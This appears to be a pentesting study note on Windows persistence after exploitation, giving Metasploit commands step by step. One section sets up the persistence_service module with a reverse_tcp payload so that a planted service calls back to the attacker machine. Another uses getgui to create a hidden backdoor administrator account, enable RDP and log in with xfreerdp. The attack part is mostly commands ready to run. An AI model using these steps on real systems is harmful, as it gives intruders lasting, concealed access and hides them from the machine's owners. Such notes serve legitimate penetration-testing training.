 # Windows Persistence

## Contents
- []()
- []()
- []()
- []()
- []()
- []()
- []()
- []()

## MetaSploit Module: persistence_service

### Set-Up
- You have exploited a vulnerable service, gained access, and escalated your privileges via MetaSploit.
- You have a meterpreter session and can do some initial enumeration (`sysinfo`, `getuid`).

### Module: persistance_service
- Background your meterpreter session.
```
> search persistence_service
> use /exploit/windows/local/persistence_service
> set LHOST [attack ip]
> set LPORT [something not in conflict with your current meterpreter session]
> set SESSION [your meterpreter session id#; must have admin privs]
> set PAYLOAD windows/meterpreter/reverse_tcp
> run
```
- This exploit will generate and upload an executable to the target system.
  - It will then make it a persistent service on that machine.
  - So, every time the service is running it will establish a reverse shell to your attack machine.
- And within a few seconds of running the module you should get a meterpeter session reverse shell from the target.

## Persistence via RDP

### The Idea
- We create a backdoor user account.
  - We add that account to the Administrators group
  - That way our backdoor user has admin privs
  - Then we'll enable RDP (Remote Desktop Protocol) so we can login to the target whenever we want.
- Resource: https://www.offsec.com/metasploit-unleashed/enabling-remote-desktop/

### Set-Up
- You have exploited a vulnerable service, gained access, and escalated your privileges via MetaSploit.
- You have a meterpreter session and can do some initial enumeration (`sysinfo`, `getuid`).
- Make sure you migrate your meterpreter session to a stable process.

### Create the Backdoor Account: getgui
- PROBLEM: When you create a new user on a Windows machine, that user will show up on the logon screen when the system is booted.
  - We'll need to fix that so it doesn't appear (hide the user from the logon screen)
- This whole process can be simplified into one command (msfconsole): getgui
- From the msfconsole prompt, run the script...
```
> run getgui -e -u [name] -p [password]
```
- `getgui` : This script enables Remote Desktop and creates a user account for you to log into it with.
  - It first checks to see whether the RDP service is enabled; if it is disabled, it will enable it.
  - It will also create a new user and hide that user from the Windows login screen.
- `-e` : enable (checks to see if RDP is running; if not, it enables it: REQUIRED)
- `-u` : create new user
- `-p` : password

### Remote In with xfreerdp
```
xfreerdp /u:[username] /p:[password] /v:[target ip]
```
